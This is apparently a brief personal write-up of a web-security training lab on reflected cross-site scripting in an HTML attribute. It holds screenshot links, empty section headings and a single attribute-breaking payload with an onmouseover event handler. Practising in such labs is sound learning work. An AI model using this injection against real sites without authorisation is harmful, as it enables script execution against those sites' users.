





# Lab: Reflected XSS into attribute with angle brackets HTML-encoded

URL: https://0a11009004e40aa080155df800ac00a9.web-security-academy.net/


## Testing fields:







## Exploitation:





Payload:
```
"onmouseover="alert(1)
```